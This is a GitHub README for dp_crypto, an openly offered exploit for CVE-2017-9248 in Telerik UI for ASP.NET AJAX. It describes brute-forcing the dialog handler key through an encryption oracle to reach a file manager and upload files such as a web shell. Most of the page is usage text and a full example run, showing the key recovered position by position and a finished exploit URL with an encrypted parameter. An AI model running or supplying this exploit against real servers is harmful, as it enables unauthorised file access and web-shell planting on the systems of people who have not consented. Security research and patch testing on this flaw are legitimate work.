




# dp_crypto
[](https://www.python.org)

Base64-based encryption oracle exploit for CVE-2017-9248 (Telerik UI for ASP.NET AJAX dialog handler)

## Published on exploit-db
- https://www.exploit-db.com/exploits/43873/

## See also

My other Telerik UI exploit (for CVE-2017-11317 and CVE-2017-11357) will probably also be of interest. It is available here:
- https://github.com/bao7uo/RAU_crypto

## Overview

This exploit attacks a weak encryption implementation to discover the dialog handler key for vulnerable versions of Telerik UI for ASP.NET AJAX, then provides an encrypted link which gives access to a file manager, and arbitrary file upload (e.g. web shell) if remote file permissions allow. Works up to and including version 2017.1.118.



## Usage

```
$ ./dp_crypto.py 

dp_crypto by Paul Taylor / Foregenix Ltd

CVE-2017-9248 - Telerik.Web.UI.dll Cryptographic compromise

Usage:

Decrypt a ciphertext:        -d ciphertext key
Encrypt a plaintext:         -e plaintext key
Bruteforce key/generate URL: -k url key_length key_charset accuracy
Encode parameter to base64:  -b plain_parameter
Decode base64 parameter:     -p encoded_parameter

To test all ascii characters set key_charset to: all, for upper case hex (e.g. machine key) set to hex.

Maximum accuracy is out of 64 where 64 is the most accurate, however 9 will usually suffice.

The following example should be sufficient to crack machine key and generate a valid file manager URL:
./dp_crypto -k http://fake.bao7uo.com/Telerik.Web.UI.DialogHandler.aspx 48 hex 9
```

## Example



```
$ ./dp_crypto.py -k http://fake.bao7uo.com/Telerik.Web.UI.DialogHandler.aspx 48 hex 9

dp_crypto by Paul Taylor / Foregenix Ltd
CVE-2017-9248 - Telerik.Web.UI.dll Cryptographic compromise

Attacking http://192.168.55.2/Telerik.Web.UI.DialogHandler.aspx
to find key of length [48] with accuracy threshold [9]
using key charset [01234567890ABCDEF]

Key position 01: {3} found with 23 requests, total so far: 23
Key position 02: {0} found with 9 requests, total so far: 32
Key position 03: {4} found with 36 requests, total so far: 68
Key position 04: {2} found with 22 requests, total so far: 90
Key position 05: {1} found with 10 requests, total so far: 100
Key position 06: {1} found with 10 requests, total so far: 110
Key position 07: {1} found with 10 requests, total so far: 120
Key position 08: {A} found with 31 requests, total so far: 151
Key position 09: {E} found with 49 requests, total so far: 200
Key position 10: {3} found with 23 requests, total so far: 223
Key position 11: {E} found with 49 requests, total so far: 272
Key position 12: {8} found with 31 requests, total so far: 303
Key position 13: {A} found with 31 requests, total so far: 334
Key position 14: {0} found with 9 requests, total so far: 343
Key position 15: {D} found with 48 requests, total so far: 391
Key position 16: {A} found with 31 requests, total so far: 422
Key position 17: {F} found with 61 requests, total so far: 483
Key position 18: {D} found with 48 requests, total so far: 531
Key position 19: {F} found with 61 requests, total so far: 592
Key position 20: {D} found with 49 requests, total so far: 641
Key position 21: {6} found with 49 requests, total so far: 690
Key position 22: {4} found with 36 requests, total so far: 726
Key position 23: {2} found with 22 requests, total so far: 748
Key position 24: {5} found with 33 requests, total so far: 781
Key position 25: {9} found with 31 requests, total so far: 812
Key position 26: {B} found with 37 requests, total so far: 849
Key position 27: {5} found with 37 requests, total so far: 886
Key position 28: {C} found with 35 requests, total so far: 921
Key position 29: {B} found with 37 requests, total so far: 958
Key position 30: {F} found with 61 requests, total so far: 1019
Key position 31: {C} found with 35 requests, total so far: 1054
Key position 32: {2} found with 22 requests, total so far: 1076
Key position 33: {0} found with 9 requests, total so far: 1085
Key position 34: {8} found with 31 requests, total so far: 1116
Key position 35: {2} found with 22 requests, total so far: 1138
Key position 36: {E} found with 46 requests, total so far: 1184
Key position 37: {1} found with 10 requests, total so far: 1194
Key position 38: {5} found with 37 requests, total so far: 1231
Key position 39: {B} found with 37 requests, total so far: 1268
Key position 40: {4} found with 32 requests, total so far: 1300
Key position 41: {D} found with 48 requests, total so far: 1348
Key position 42: {0} found with 9 requests, total so far: 1357
Key position 43: {0} found with 9 requests, total so far: 1366
Key position 44: {F} found with 57 requests, total so far: 1423
Key position 45: {7} found with 50 requests, total so far: 1473
Key position 46: {5} found with 37 requests, total so far: 1510
Key position 47: {F} found with 61 requests, total so far: 1571
Key position 48: {8} found with 31 requests, total so far: 1602
Found key: 3042111AE3E8A0DAFDFD64259B5CBFC2082E15B4D00F75F8
Total web requests: 1602
2012.3.1308: http://fake.bao7uo.com/Telerik.Web.UI.DialogHandler.aspx?DialogName=DocumentManager&renderMode=2&Skin=Default&Title=Document%20Manager&dpptn=&isRtl=false&dp=YWcBWmhcSS0UawsNI10KFyUDPjJvY2NGay9zMCF0FkF9QUoQUlsUWAsAYipVchAIaWZ2WlV2WTsJdRdBJWcRMgsHPiVUY38AbAR7dyAQMwR9fFlyY2J3XB1dSCplYndRaWdmWWtmYwIcawtUFAMWdCQDED5Xc2RZXQFNBBsRO0hqa0U/fXMQTSBnZXFiWBBNaXdiS2VmCCofYD1/GGc8OxwXMT16cHsCbxp3MCB0BVllf3R1UH0PRxJ4endtZjFPf3ZERmhLXRAQZH0BDgEKLR8cDC5XcnBdXQpnLyErdkh8fmA8VWIXRwlzSBJ6WDVPagFxC2FlRQcnXgNRI3cSByQTDChsc2BZYwR7MSMRdkh8fWgtU30MWAh0fTVhfQwJaWRAfGhpWRcmdD1OGGcWBicTPihjBl4DYxFNBBsRO0hqa0U9fXELQwp0VzF6cTJ1UQJ6WlN2XXccaxdIIwJxEB8cFCt6cWhdWwp7Lw4CAkF/CGg1U3IUdyddCXVUBxBBYgINR1V2ZzQhdQdBIwMeMRwDED1gfF5CYxcAKyARFkFiVXQ2UgcXRwlzR3FhWCpUVwF2WlV2WTsJdRdBJWcRMgsHPiVUY38AbARzNRISN3hTCXw3UGJ3YSYDZixWdj5/amdMSGtiRjsJdh9QI3gKLQl0EHBSc2RMWy9zMBABL1pSfwsrUgQAXCB3VzVlWABLUAJhQXxyRnYRdANNGwMSKRx2EzdkWXRGWnBgMA8FO1NmQmB1Z1kYehRkRBNtYj5UUF1YQH1aYzEcZD1OGwAWLRwpKjFXbGBFW3ABNhABL1pSfwsrZ30uQx5lBS5VYhNLYV1yQVIDZDIIcD1vEwEeOxEoLg9Vc3QAdxRdIhR2LwNmVGQ3VWMIbBFeci1lTyoNZ3dAYVJ3XRkgex9ZDHVxcx8pcxdTY3tMXApFDiN3CQBnbHwSVXMybApkchNhBRwJZGZQWVN2fzMQXQdiFwMscxEqKndsBWh9byx7IhUDM0VpYFl0ZnMybBdoZhFhYjJCYGVuU1N2fzQRXQdRDFoVdBITNgZTcQNFdwpFDiMtFQRkbWArUgUuchBadi9kcw9AagIFZH5mezUTWQNTEnU0Lh8vCHdsBWR8by9ZKhB0O0NlQngSf2MYfAtoeidhTxcNZ2ZmeFR3QTUXXj13JF0gdRIpNhNXYl5gbS9BDBMScwt/CHQ2U3J7BxBoZjVTcipPUXdiZmtmSS0cABdIIwJwMhQpADdVBmdGdDtNBBsRO0hqaQ94
$ 
```




